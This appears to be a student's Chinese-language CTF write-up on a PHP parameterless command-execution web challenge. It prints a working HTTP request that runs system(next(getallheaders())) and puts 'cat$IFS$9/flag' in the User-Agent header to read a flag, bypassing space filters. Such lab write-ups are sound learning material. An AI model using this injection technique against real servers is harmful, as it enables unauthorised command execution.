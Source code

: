 查阅资料   发现这应该是   无参数命令执行学习

参考链接  https://xz.aliyun.com/t/10780?time__1311=mq%2BxB7DQ0QnDRDBdPoGkbYMRDj24iuDi%3D4D&alichlgref=https%3A%2F%2Fwww.google.com.hk%2F



我先试试这篇文章里的Payload1

这里是试后的我，发现还是不行，发过去的包接不到回应啊

和游戏高手那道题一样的问题        好在我现在知道什么情况了  大概

去翻了翻聊天群 有如下答案

<img src="../typora-user-images/image-20240225234028669.png" alt="image-20240225234028669" style="zoom:50%;" />

然后我就加了两行空行    得到结果了           乐......

![image-20240225234120975](../typora-user-images/image-20240225234120975.png)

可以看到有回应了......           发包的时候构造的包要加空行！！！

参考的文章里的方法有用但实际用在这道题好像不怎么行

主要原因是，这道题过滤了太多了

![image-20240225235539274](../typora-user-images/image-20240225235539274.png)

比如这个payload，用在本题是被过滤的，根本行不通。。。

后面几个也不知道啥情况，主要太晚了，先这样吧......

GET /bo0g1pop.php?star=system(next(getallheaders())); HTTP/1.1
Host: 4ec69c80-944e-4960-83c0-257e84dbe66f.node4.buuoj.cn:81
User-Agent: cat$IFS$9/flag
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1

这是群里大佬给的，感觉比题解的更容易理解

![image-20240226000052414](../typora-user-images/image-20240226000052414.png)

虽然我有点好奇多出来的$9是什么玩意   这种命令中$+一个字符啥的的影响？？？

我试了试 直接cat也行啊

![image-20240226000549862](../typora-user-images/image-20240226000549862.png)

就到这里吧





## Week2 Misc
